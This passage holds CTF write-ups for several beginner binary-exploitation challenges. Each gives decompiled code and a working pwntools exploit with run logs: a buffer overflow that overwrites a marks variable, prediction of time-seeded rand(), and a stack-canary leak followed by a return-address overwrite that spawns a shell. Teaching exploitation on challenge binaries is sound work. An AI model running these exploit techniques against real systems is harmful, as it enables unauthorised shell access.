  key[10] = 0x6e;
  key[11] = 0x20;
  key[12] = 0x72;
  key[13] = 0xc;
  key[14] = 2;
  key[15] = 0x18;
  printf("%s", f16);
  for (int i = 15; i >= 0; i--) {
    printf("%c", key[i] ^ f16[i]);
  }
}
```

```sh
backdoor/beg/cheat via C v13.2.1-gcc took 1m4s
❯ ./sol
flag{c4n't_HESOYAM_7h15_c4n_y0u}
```

flag: `flag{c4n't_HESOYAM_7h15_c4n_y0u}`

---

## Marks

We were given a [binary] file that is supposed to show us our marks given our name and roll. Let's load it up in ghidra:

```c
undefined8 main(void)

{
  int r;
  time_t tVar1;
  long in_FS_OFFSET;
  undefined name [32];
  char buf [64];
  int roll;
  uint m;
  long local_10;
  
  local_10 = *(in_FS_OFFSET + 0x28);
  tVar1 = time(0x0);
  srand(tVar1);
  puts("Enter your details to view your marks ...");
  printf("Roll Number : ");
  __isoc99_scanf("%d",&roll);
  printf("Name : ");
  __isoc99_scanf("%s",name);
  puts("Please Wait ...\n");
  usleep(1000000);
  r = rand();
  m = r % 75;
  printf("You got %d marks out of 100\n",m);
  puts("Any Comments ?");
  __isoc99_scanf("%s",buf);
  puts("Thanks !");
  if (m == 100) {
    puts("Cool ! Here is your shell !");
    system("/bin/sh");
  }
  else {
    puts("Next time get 100/100 marks for shell :)");
  }
  if (local_10 != *(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

The goal here is to get 100 marks but as we can see, the highest we can get is 74. So, we have to overflow our comment buffer into the m variable in our stack.
Once you get where our m variable is in the stack, it is pretty easy to write an exploit that will overflow our buf buffer into the marks m variable.
Here is my solution:

```python
#!/usr/bin/env python

from pwn import *

context.log_level = "debug"

# p = process("./chal")
p = remote("34.70.212.151", 8004)

p.recv()
p.sendline(b"123")
p.recv()
p.sendline(b"whoami")
p.recv()
pay = b"a" * 68 + p64(100)
p.sendline(pay)
p.interactive()
p.close()
```

```sh
backdoor/beginner/marks on  master [!?] via 🐍 v3.11.6
❯ ./sol.py
[+] Starting local process './chal' argv=[b'./chal'] : pid 118111
[DEBUG] Received 0x38 bytes:
    b'Enter your details to view your marks ...\n'
    b'Roll Number : '
[DEBUG] Sent 0x4 bytes:
    b'123\n'
[DEBUG] Received 0x7 bytes:
    b'Name : '
[DEBUG] Sent 0x7 bytes:
    b'whoami\n'
[DEBUG] Received 0x11 bytes:
    b'Please Wait ...\n'
    b'\n'
[DEBUG] Sent 0x4d bytes:
    00000000  61 61 61 61  61 61 61 61  61 61 61 61  61 61 61 61  │aaaa│aaaa│aaaa│aaaa│
    *
    00000040  61 61 61 61  64 00 00 00  00 00 00 00  0a           │aaaa│d···│····│·│
    0000004d
[*] Switching to interactive mode
[DEBUG] Received 0x50 bytes:
    b'You got 21 marks out of 100\n'
    b'Any Comments ?\n'
    b'Thanks !\n'
    b'Cool ! Here is your shell !\n'
You got 21 marks out of 100
Any Comments ?
Thanks !
Cool ! Here is your shell !
$ ls
[DEBUG] Sent 0x3 bytes:
    b'ls\n'
[DEBUG] Received 0x16 bytes:
    b'chal  flag.txt\n'
chal  flag.txt
$ cat flag.txt
[DEBUG] Sent 0xd bytes:
    b'cat flag.txt\n'
[DEBUG] Received 0x25 bytes:
    b'flag{Y0u_ju57_0v3rfl0wed_y0ur_m4rk5}\n'
flag{Y0u_ju57_0v3rfl0wed_y0ur_m4rk5}
```

flag: `flag{Y0u_ju57_0v3rfl0wed_y0ur_m4rk5}`

---

## Fruit basket

We were given a [binary](./beginner/fruit_basket/chal). The binary when run, asks us to guess a fruit in it's basket.

```sh
backdoor/beginner/fruit_basket on  master [!?] via 🐍 v3.11.6
❯ ./chal
There is a basket full of fruits, guess the fruit which I am holding ...
This seems hard, so I will give an awesome reward, something like a shell if you guess all the fruits right :)

The game starts now !
1
Your guess : mango
Oops ! Wrong Guess ..
No shell for you :(
```

Let's look inside the binary with ghidra.

```c

/* DISPLAY WARNING: Type casts are NOT being printed */

undefined8 main(void)

{
  int r;
  time_t tVar1;
  size_t len;
  long in_FS_OFFSET;
  int i;
  char buf [12];
  long canary;
  char *fruit;
  bool shell;
  
  canary = *(in_FS_OFFSET + 0x28);
  tVar1 = time(0x0);
  srand(tVar1);
  shell = true;
  puts("There is a basket full of fruits, guess the fruit which I am holding ...");
  puts(
      "This seems hard, so I will give an awesome reward, something like a shell if you guess all th e fruits right :)"
      );
  usleep(2000000);
  puts("\nThe game starts now !");
  i = 0;
  do {
    if (49 < i) {
LAB_001014ca:
      if (shell) {
        system("/bin/sh");
      }
      if (canary != *(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
        __stack_chk_fail();
      }
      return 0;
    }
    r = rand();
    fruit = fruits[r % 10];
    printf("%d\n",i + 1);
    printf("Your guess : ");
    fgets(buf,12,stdin);
    len = strcspn(buf,"\n");
    buf[len] = '\0';
    len = strlen(fruit);
    r = strncmp(fruit,buf,len);
    if (r != 0) {
      puts("Oops ! Wrong Guess ..");
      puts("No shell for you :(");
      shell = false;
      goto LAB_001014ca;
    }
    puts("Correct !");
    puts("");
    i += 1;
  } while( true );
}
```

The `fruits` is a global variable stored directly inside the binary which is a two dimensional array that is a list of fruits.

```
00102008	Apple
0010200e	Orange
00102015	Mango
0010201b	Banana
00102022	Pineapple
0010202c	Watermelon
00102037	Guava
0010203d	Kiwi
00102042	Strawberry
0010204d	Peach
```

We have to guess all 50 fruits right. There seems to be no way of doing a buffer overflow or format string exploit in this code. So we target the seed that is being used to generate all random numbers. If we can use same seed to start our rng, we will arrive at the same random number. But the seed they are using is the system time using `seed(time(0))`. At first I thought well no luck here. But, if we think about it, if both us and the server starts at the same time, we will get the same time and eventually the same seed. The cstdlib `time(0)` returns time int the second resolution. So, we can use the fact that there is not much delay in between our communication, we can basically get the server and our rng to start with the same seed. The following code shows how we can call the cstdlib functions from within python with ctypes and write an exploit to get shell.

```py
#!/usr/bin/env python

from ctypes import CDLL

from pwn import remote, gdb, context, log, p64, process, u64

context.log_level = "debug"
context.terminal = ["tmux", "split-window", "-h"]

fruits = b"\x08\x20\x10\x00\x00\x00\x00\x00\x0e\x20\x10\x00\x00\x00\x00\x00\x15\x20\x10\x00\x00\x00\x00\x00\x1b\x20\x10\x00\x00\x00\x00\x00\x22\x20\x10\x00\x00\x00\x00\x00\x2c\x20\x10\x00\x00\x00\x00\x00\x37\x20\x10\x00\x00\x00\x00\x00\x3d\x20\x10\x00\x00\x00\x00\x00\x42\x20\x10\x00\x00\x00\x00\x00\x4d\x20\x10\x00\x00\x00\x00\x00"
fruits = [u64(fruits[i : i + 8]) for i in range(0, len(fruits), 8)]

fruit_basket = {
    0x00102008: b"Apple",
    0x0010200E: b"Orange",
    0x00102015: b"Mango",
    0x0010201B: b"Banana",
    0x00102022: b"Pineapple",
    0x0010202C: b"Watermelon",
    0x00102037: b"Guava",
    0x0010203D: b"Kiwi",
    0x00102042: b"Strawberry",
    0x0010204D: b"Peach",
}

libc = CDLL("libc.so.6")
# p = process("./chal")
p = remote("34.70.212.151", 8006)
seed = libc.time(0)
libc.srand(seed)
log.info(f"using {seed=}")

# gdb.attach(
#     p,
#     """
#     set follow-fork-mode child
#     break *(main+318)
#     continue
#     """,
# )

for i in range(50):
    rin = libc.rand() % len(fruits)
    fruit = fruit_basket[fruits[rin]]
    log.info(f"rand = {rin}, fruit = {fruit}")
    try:
        p.sendlineafter(b"Your guess : ", fruit)
    except:  # noqa: E722
        break

p.interactive()
```

```sh
backdoor/beginner/fruit_basket on  master [!?] via 🐍 v3.11.6
❯ ./sol.py
[+] Starting local process './chal' argv=[b'./chal'] : pid 128256
[*] using seed=1703526848
[*] rand = 7, fruit = b'Kiwi'
[DEBUG] Received 0xb8 bytes:
    b'There is a basket full of fruits, guess the fruit which I am holding ...\n'
    b'This seems hard, so I will give an awesome reward, something like a shell if you guess all the fruits right :)\n'
[DEBUG] Received 0x26 bytes:
    b'\n'
    b'The game starts now !\n'
    b'1\n'
    b'Your guess : '
[DEBUG] Sent 0x5 bytes:
    b'Kiwi\n'
[*] rand = 2, fruit = b'Mango'
[DEBUG] Received 0x1a bytes:
    b'Correct !\n'
    b'\n'
    b'2\n'
    b'Your guess : '
[DEBUG] Sent 0x6 bytes:
    b'Mango\n'
[*] rand = 7, fruit = b'Kiwi'
[DEBUG] Received 0x1a bytes:
    b'Correct !\n'
    .
    .
    .
    .
    b'\n'
    b'49\n'
    b'Your guess : '
[DEBUG] Sent 0xb bytes:
    b'Strawberry\n'
[*] rand = 7, fruit = b'Kiwi'
[DEBUG] Received 0x1b bytes:
    b'Correct !\n'
    b'\n'
    b'50\n'
    b'Your guess : '
[DEBUG] Sent 0x5 bytes:
    b'Kiwi\n'
[*] Switching to interactive mode
[DEBUG] Received 0xb bytes:
    b'Correct !\n'
    b'\n'
Correct !

$ ls
[DEBUG] Sent 0x3 bytes:
    b'ls\n'
[DEBUG] Received 0x16 bytes:
    b'chal  flag.txt\n'
chal  flag.txt
$ cat flag.txt
[DEBUG] Sent 0xd bytes:
    b'cat flag.txt\n'
[DEBUG] Received 0x22 bytes:
    b'flag{fru17s_w3r3nt_r4nd0m_4t_a11}\n'
flag{fru17s_w3r3nt_r4nd0m_4t_a11}
```

flag: `flag{fru17s_w3r3nt_r4nd0m_4t_a11}`

---

## Escape the Room

We were given a [binary](./beginner/escape_the_room/chal). It asks for a key and also lets us try for a second chance.

```sh
backdoor/beginner/escape_the_room on  master [!?] via 🐍 v3.11.6
❯ ./chal
Welcome to Escape the R00m !
You have only two chances to escape the room ...
Enter key : key
key
 is not the key, try again !
Enter key : key
Wrong, go away !
```

The first input is a little suspicious. We can see that our input is being reflected. Maybe there is a format string vulnerability in the binary? Let's load it in ghidra.

```c
void escape(void)

{
  puts("Sweet !");
  system("/bin/sh");
  return;
}


undefined8 main(void)

{
  int iVar1;
  time_t tVar2;
  long in_FS_OFFSET;
  char inp [32];
  char rstr [40];
  long canary;
  
  canary = *(in_FS_OFFSET + 0x28);
  tVar2 = time(0x0);
  srand(tVar2);
  rand_str(rstr,30);
  puts("Welcome to Escape the R00m !");
  puts("You have only two chances to escape the room ...");
  printf("Enter key : ");
  read(0,inp,80);
  iVar1 = strncmp(rstr,inp,30);
  if (iVar1 == 0) {
    puts("That was a nice escape ... But there is more to it !");
  }
  else {
    printf("%s is not the key, try again !\n",inp);
  }
  printf("Enter key : ");
  __isoc99_scanf("%s",inp);
  iVar1 = strncmp(rstr,inp,0x1e);
  if (iVar1 == 0) {
    puts("That was a nice escape ... But there is more to it !");
  }
  else {
    puts("Wrong, go away !");
  }
  if (canary != *(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

As we can see from this code, even if we do generate the correct key using the strategy from the fruit_basket challenge to hack the seed, not only it does not give us shell nor does it leak any data. We can see that the buffer being read in the first try is 80. So, we can overflow our input buffer and overwrite our randomly generated string to be the same as our input. But making our guess right with an overflow does not help us either. Instead, if we make a wrong guess, we are given our input. We can see that the input is not being null terminated after being read. So, we can leak the canary by writing our buffer all the way up to our canary but also make the two strings that will be compared not equal. Because we want that leak. Then we will use the second input to overflow and write to the return address the address of our escape function.

Here is the python script for the solution:

```py
#!/usr/bin/env python

from pwn import ELF, ROP, context, log, p64, process, remote

context.log_level = "debug"
context.terminal = ["tmux", "split-window", "-h"]

elf = ELF("./chal")

# p = process(elf.path)
p = remote("34.70.212.151", 8005)

r = ROP(elf)

ret = r.find_gadget(["ret"])[0]
escape = elf.symbols["escape"]

# gdb.attach(
#     p,
#     """
#     set follow-fork-mode child
#     break 0x00401564
#     continue
#     """,
# )

payload = b"A" * 32
payload += b"B" * 40

p.sendlineafter(b"Enter key : ", payload)
p.recvline()
canary = b"\x00" + p.recvline().strip()[:7]
log.info(f"canary: {canary}")
payload = payload + canary + p64(ret) + p64(0x00401596)

p.sendlineafter(b"Enter key : ", payload)
# p.recv()
p.interactive()
```

> Note: I could not get the script to work if we wanted to return to escape function. But I ended up returning to just before the shell is being called with system function inside the escape function. Also note that I could do it because PIE was disabled and I could jump to any address directly.

```sh
backdoor/beginner/escape_the_room on  master [!?] via 🐍 v3.11.6
❯ ./sol.py
[*] '/home/groot/dev/gr007-40.github.io/docs/writeups/2023/backdoor/beginner/escape_the_room/chal'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process '/home/groot/dev/gr007-40.github.io/docs/writeups/2023/backdoor/beginner/escape_the_room/chal' argv=[b'/home/groot/dev/gr007-40.github.io/docs/writeups/2023/backdoor/beginner/escape_the_room/chal'] : pid 142126
[*] Loaded 5 cached gadgets for './chal'
[DEBUG] Received 0x5a bytes:
    b'Welcome to Escape the R00m !\n'
    b'You have only two chances to escape the room ...\n'
    b'Enter key : '
[DEBUG] Sent 0x49 bytes:
    b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB\n'
[DEBUG] Received 0x7a bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000020  42 42 42 42  42 42 42 42  42 42 42 42  42 42 42 42  │BBBB│BBBB│BBBB│BBBB│
    *
    00000040  42 42 42 42  42 42 42 42  0a 36 4e c6  3d 16 d2 43  │BBBB│BBBB│·6N·│=··C│
    00000050  01 20 69 73  20 6e 6f 74  20 74 68 65  20 6b 65 79  │· is│ not│ the│ key│
    00000060  2c 20 74 72  79 20 61 67  61 69 6e 20  21 0a 45 6e  │, tr│y ag│ain │!·En│
    00000070  74 65 72 20  6b 65 79 20  3a 20                     │ter │key │: │
    0000007a
[*] canary: b'\x006N\xc6=\x16\xd2C'
[DEBUG] Sent 0x61 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000020  42 42 42 42  42 42 42 42  42 42 42 42  42 42 42 42  │BBBB│BBBB│BBBB│BBBB│
    *
    00000040  42 42 42 42  42 42 42 42  00 36 4e c6  3d 16 d2 43  │BBBB│BBBB│·6N·│=··C│
    00000050  1a 10 40 00  00 00 00 00  96 15 40 00  00 00 00 00  │··@·│····│··@·│····│
    00000060  0a                                                  │·│
    00000061
[*] Switching to interactive mode
[DEBUG] Received 0x11 bytes:
    b'Wrong, go away !\n'
Wrong, go away !
$ ls
[DEBUG] Sent 0x3 bytes:
    b'ls\n'
[DEBUG] Received 0x16 bytes:
    b'chal  flag.txt\n'
chal  flag.txt
$ cat flag.txt
[DEBUG] Sent 0xd bytes:
    b'cat flag.txt\n'
[DEBUG] Received 0x3e bytes:
    b'flag{unl0ck_y0ur_1m4gin4ti0ns_esc4p3_th3_r00m_0f_l1m1t4t10n5}\n'
flag{unl0ck_y0ur_1m4gin4ti0ns_esc4p3_th3_r00m_0f_l1m1t4t10n5}
```

flag: `flag{unl0ck_y0ur_1m4gin4ti0ns_esc4p3_th3_r00m_0f_l1m1t4t10n5}`
